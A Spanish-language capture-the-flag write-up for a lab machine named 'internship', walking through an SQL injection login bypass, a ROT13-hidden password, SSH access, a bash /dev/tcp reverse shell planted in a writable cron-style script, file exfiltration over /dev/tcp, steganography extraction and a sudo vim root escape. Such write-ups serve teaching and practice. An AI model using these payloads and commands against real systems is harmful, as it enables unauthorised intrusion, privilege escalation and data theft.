









# internship - Writeup

## Resumen 
Esta máquina presenta una vulnerabilidad de SQL Injection que aprovechamos para bypasear el login, donde encontramos una pista cifrada en ROT13 con la contraseña de un pasante. Usamos esa contraseña para acceder a un usuario del servidor SSH, y luego abusamos de un script con permisos de escritura vulnerables para pivotar a otro usuario. Finalmente, mediante la extracción de información oculta en un archivo JPEG (esteganografía), obtuvimos la contraseña para escalar privilegios a root.

## Paso N1: Reconocimiento 
Empezamos escaneando los puertos TCP de la máquina con el siguiente comando:
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000
```


Podemos ver que están los puertos 22 y 80 abiertos, no tenemos las credenciales correspondientes al ssh, por lo que tocará investigar el servidor web.

## Paso N2: Investigación
Al entrar a la página, no encontraremos información relevante, por lo que haremos un ```curl``` (o en su defecto inspeccionaremos la página) y encontraremos una línea interesante:

```
<link rel="dns-prefetch" href="//gatekeeperhr.com" />
```

Por lo que ahora, configuraremos ```/etc/hosts``` para acceder a la página, de la siguiente forma:
```
172.17.0.2 gatekeeperhr.com
```

## Paso N3: SQL Injection
Ahora sí, una vez dentro de la página, podremos acceder a una pestaña de login, en la cuál pide un usuario y una contraseña, por lo que intentamos hacer una SQLi de la siguiente manera:

```
' OR 1=1 -- -
```
```' OR 1=1 -- -``` funciona de la siguiente manera: ```'``` sirve para cerrar la cadena de texto donde se encuentra el input, ```OR 1=1``` se usa como un condicional, para que devuelva TRUE, haciendo que la condicion se cumpla sin importar los datos reales, ```-- -``` los primero dos guíones sirven para comentar el resto de la línea, el espacio y guíon restante sirve de relleno para asegurar que la inyección se ejecute correctamente, por lo que ahora tenemos acceso a la página.

## Paso N4: Buscando subdirectorios
Al acceder a la página, tenemos una lista con las columnas: id, nombre, departamento y fecha de inicio. No tenemos alguna idea de que hacer con eso, por lo que buscamos diferentes directorios para buscar mas información con gobuster

```
 gobuster dir -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://gatekeeperhr.com/
```
Y encontramos el subdirectorio /spam, que al hacerle un ```curl``` (o en su defecto entrar e inspeccionar la página) encontraremos un comentario:

```
<!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
```
Por intuición, supe que era un cifrado ROT13, por lo que procedo a descifrarlo de manera online y queda el siguiente texto:
```
<!-- La contraseña de uno de los pasantes es 'purpl3' -->
```

## Paso N5: Accediendo a usuarios
Una vez ya teniendo la contraseña de uno de los pasantes, volvemos a la pagina inicial luego del login, y buscando por la columna de departamento encontramos dos pasantes, **Pedro Ramirez** y **Valentina Gomez**, por lo que ahora probaremos la contraseña con los dos usuarios que tenemos en el servidor ssh.

Lo intento con el usuario Pedro con ```ssh pedro@172.17.0.2```  y accedemos al usuario correcto.


No podemos correr ```sudo -l``` y tampoco hay binarios SUID vulnerables, por lo que podemos empezar a buscar archivos vulnerables.
En el directorio /opt hay un archivo llamado ```log_cleaner.sh``` de grupo valentina y usuario valentina y tenemos permisos para leerlo, ejecutarlo y editarlo, por lo que lo configuramos para que nos haga una reverse shell.


En una terminal ejecutamos ```nc -lvnp 443``` y en el usuario de pedro, configuraremos el archivo con ```nano``` de esta manera:
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```


Ahora en la terminal en donde estabamos escuchando, accederemos como valentina.

## Paso N6: Escalando privilegios
En el directorio actual de valentina, tenemos un archivo llamado ```profile_picture.jpeg``` el cuál es probable que tenga información oculta, por lo que tenemos que pasarla a nuestro sistema.

Para pasarlo, escucharemos en una terminal con ```nc -lvnp 435 > test.jpeg``` y en el usuario de valentina ejecutamos el siguiente comando:
```
cat profile_picture.jpeg > /dev/tcp/172.17.0.1/435
```


Ahora que tenemos el contenido de ```profile_picture.jpeg```, podemos ver si tiene algun mensaje oculto con ```steghide extract -sf test.jpeg``` y nos deja un archivo llamado secret.txt, el cual al abrirlo, vemos que tiene el mensaje 'mag1ck', seguido, ejecutamos ```sudo vim -c ':!/bin/sh'``` en valentina, usando de contraseña ```mag1ck``` y nos convertimos en root.


